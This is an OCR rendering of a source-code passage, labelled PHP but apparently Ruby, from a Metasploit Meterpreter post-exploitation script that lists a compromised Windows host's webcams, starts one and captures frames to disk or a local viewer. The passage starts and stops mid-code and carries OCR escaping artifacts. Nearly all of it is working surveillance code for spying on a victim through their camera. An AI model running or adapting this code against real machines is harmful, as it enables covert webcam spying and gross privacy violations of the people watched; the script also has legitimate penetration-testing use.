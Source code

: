 ```php
  when "-f"  
    single \= true  
  when "-l"  
    single \= false  
  when "-d"  
    interval \= val.to\_i  
  when "-i"  
    index \= val.to\_i  
  when "-q"  
    quality \= val.to\_i  
  when "-g"  
    gui \= true  
  when "-p"  
    folderpath \= val  
  when "-s"  
    print\_line("\[\*\] Stopping webcam")  
    client.webcam.webcam\_stop  
    raise Rex::Script::Completed  
  when "-a"  
    saveAll \= true  
  end  
}  
​  
if client.platform !\= 'windows'  
  print\_error("This version of Meterpreter is not supported with this Script!")  
  raise Rex::Script::Completed  
end  
begin  
  camlist \= client.webcam.webcam\_list  
  if camlist.length \== 0  
    print\_error("Error: no webcams found!")  
    raise Rex::Script::Completed  
  elsif camlist.length < index  
    print\_error("Error: only #{camlist.length} webcams found!")  
    raise Rex::Script::Completed  
  end  
  print\_line("\[\*\] Starting webcam #{index}: #{camlist\[index \- 1\]}")  
  client.webcam.webcam\_start(index)  
​  
  #prepare output  
  if(gui)  
    sock \= Rex::Socket::Udp.create(  
        'PeerHost' \=> "127.0.0.1",  
        'PeerPort' \=> 16235  
      )  
  end  
  imagepath \= folderpath + ::File::SEPARATOR + "webcam-" + iterator.to\_s.rjust(5, "0") + ".jpg"  
  print\_line( "\[\*\] imagepath is #{imagepath}" )  
  htmlpath \= folderpath + ::File::SEPARATOR + "webcam.htm"  
  begin  
    if single \== true  
      data \= client.webcam.webcam\_get\_frame(quality)  
      if(gui)  
        sock.write(data)  
      else  
        ::File.open( imagepath, 'wb' ) do |fd|  
          fd.write( data )  
        end  
        path \= ::File.expand\_path( imagepath )  
        print\_line( "\[\*\] Image saved to : #{path}" )  
        Rex::Compat.open\_file( path )  
      end  
    else  
```
